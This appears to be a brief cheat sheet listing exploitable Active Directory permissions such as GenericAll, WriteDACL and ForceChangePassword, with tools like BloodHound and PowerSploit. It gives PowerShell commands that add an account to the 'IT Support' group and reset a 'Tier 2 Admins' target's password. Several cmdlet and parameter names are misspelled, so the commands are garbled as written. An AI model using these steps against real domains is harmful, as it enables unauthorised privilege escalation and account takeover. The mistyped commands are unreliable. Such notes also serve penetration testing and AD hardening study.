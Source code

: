 # Exploitable ACEs

## Tools: Bloodhound, AD-RSAT cmdlets, Powersploit

### 1) ForceChangePassword

### 2) AddMembers

### 3) GenericAll

### 4) GenericWrite

### 5) WriteOwner

### 6) WriteDACL

### 7) AllExtendedRights

## Examples:

### AddMember (AD-RSAT)

#### 1) Add-ADGrouMember "IT Support" -Members "MY.AD.ACCOUNT.USERNAME"

#### 2) Get-ADGroupMember -Identity "IT Support"

### ForceChangePassword (AD-RSAT)

#### 3) Get-ADGroupMember -Idenitiy "Tier 2 Admins"

#### 4) $Password = ConvertTo-SecureString "PASSWORD" -AsPlaintext -Force

#### 5) Set-ADAccountPassword -Identityn"TARGET_AD_ACCOUNT" -Reset -NewPassword $Password

#### 6) Wait for synchronization (10 minutes max) then reconnect OR gpupdate /force then disconnect and reconnect
